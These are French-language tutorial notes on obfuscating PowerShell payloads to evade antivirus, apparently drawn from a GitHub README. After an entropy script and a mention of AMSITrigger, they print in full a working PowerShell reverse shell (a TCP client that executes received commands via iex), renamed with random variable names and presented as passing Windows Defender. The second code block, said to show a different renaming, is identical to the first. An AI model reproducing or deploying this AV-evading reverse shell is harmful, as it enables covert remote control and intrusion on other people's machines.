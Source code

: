 Source : https://github.com/t3l3machus/PowerShell-Obfuscation-Bible/blob/main/README.md

L'**obfuscation** est le fait de **rendre** un payload **plus obscure** afin d'**évader** les protections **Antivirus**.

## __Entropie__

L'**entropie** est une notion mathématique qui vise à **mesurer** à quel point un **payload est aléatoire**, si une chaine est composé exclusivement d'un seul caractère son entropie sera 0, **plus il y a de caractère différent plus l'entropie va augmenter**, le calcul prend aussi en compte la **fréquence d'apparition** de ces caractères.

Pour la calculer on a implémenté la **formule de Claude E. Shannon** en python :

```python
#!/bin/python3
# Usage: python3 entropy.py <file>

import math, sys

def entropy(string):
    "Calculates the Shannon entropy of a UTF-8 encoded string"

    # decode the string as UTF-8
    unicode_string = string.decode('utf-8')

    # get probability of chars in string
    prob = [ float(unicode_string.count(c)) / len(unicode_string) for c in dict.fromkeys(list(unicode_string)) ]

    # calculate the entropy
    entropy = - sum([ p * math.log(p) / math.log(2.0) for p in prob ])

    return entropy


f = open(sys.argv[1], 'rb')
content = f.read()
f.close()

print(entropy(content))
```

![[Entropy1.png]]


## __Identify Detection Triggers__

Avant d'effectuer une tentative d'obscusissement du code, il faut **savoir ce qui déclanche l'alerte**, pour se faire, on peut utiliser **[AMSITrigger](https://github.com/RythmStick/AMSITrigger)**.

On peut également le faire à la main en regardant les erreurs.


## __Rename Objects__

Il est important de renommer le nom de nos variables en respectant le concept de [Entropie](PowerShell_Obfuscation.md#__Entropie__), cela rend le travail plus difficile pour les antivirus.

Voici un code détecté par les antivirus classique dont windows defender :

![[renameObj1.png]]

En remplaçant le nom des variables ainsi que **`(pwd).Path`** par **`$(gl)`**, on obtient un code que les antivirus ne découvre pas. 

```powershell
$84b5d7ab8755451cb386a79589e39fa8 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181); $3b95c1d3d7dc4e4fa6474ce1bceae743 = $84b5d7ab8755451cb386a79589e39fa8.GetStream(); [byte[]] $367ad63a4a834bf5bb275aab24a4890c = 0..65535|%{0}; while(($d084ee484cf44c09b003024847840f3d = $3b95c1d3d7dc4e4fa6474ce1bceae743.Read($367ad63a4a834bf5bb275aab24a4890c, 0, $367ad63a4a834bf5bb275aab24a4890c.Length)) -ne 0){; $b16fd2353f0d413484e1583776256f61 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($367ad63a4a834bf5bb275aab24a4890c,0, $d084ee484cf44c09b003024847840f3d); $b396f8bb13ec47c28e4f721085e95361 = (iex $b16fd2353f0d413484e1583776256f61 2>&1 | Out-String ); $2bfb84697b834fa09479071ec68d6b19 = $b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; $12e0e1f0c5e14474b53907ee11f75ed7 = ([text.encoding]::ASCII).GetBytes($2bfb84697b834fa09479071ec68d6b19); $3b95c1d3d7dc4e4fa6474ce1bceae743.Write($12e0e1f0c5e14474b53907ee11f75ed7,0, $12e0e1f0c5e14474b53907ee11f75ed7.Length);$3b95c1d3d7dc4e4fa6474ce1bceae743.Flush()}; $84b5d7ab8755451cb386a79589e39fa8.Close()
```

On peut également remplacer le nom des variables par x * 'f', ce qui donnerai quelques choses comme :

```powershell
$84b5d7ab8755451cb386a79589e39fa8 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181); $3b95c1d3d7dc4e4fa6474ce1bceae743 = $84b5d7ab8755451cb386a79589e39fa8.GetStream(); [byte[]] $367ad63a4a834bf5bb275aab24a4890c = 0..65535|%{0}; while(($d084ee484cf44c09b003024847840f3d = $3b95c1d3d7dc4e4fa6474ce1bceae743.Read($367ad63a4a834bf5bb275aab24a4890c, 0, $367ad63a4a834bf5bb275aab24a4890c.Length)) -ne 0){; $b16fd2353f0d413484e1583776256f61 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($367ad63a4a834bf5bb275aab24a4890c,0, $d084ee484cf44c09b003024847840f3d); $b396f8bb13ec47c28e4f721085e95361 = (iex $b16fd2353f0d413484e1583776256f61 2>&1 | Out-String ); $2bfb84697b834fa09479071ec68d6b19 = $b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; $12e0e1f0c5e14474b53907ee11f75ed7 = ([text.encoding]::ASCII).GetBytes($2bfb84697b834fa09479071ec68d6b19); $3b95c1d3d7dc4e4fa6474ce1bceae743.Write($12e0e1f0c5e14474b53907ee11f75ed7,0, $12e0e1f0c5e14474b53907ee11f75ed7.Length);$3b95c1d3d7dc4e4fa6474ce1bceae743.Flush()}; $84b5d7ab8755451cb386a79589e39fa8.Close()
```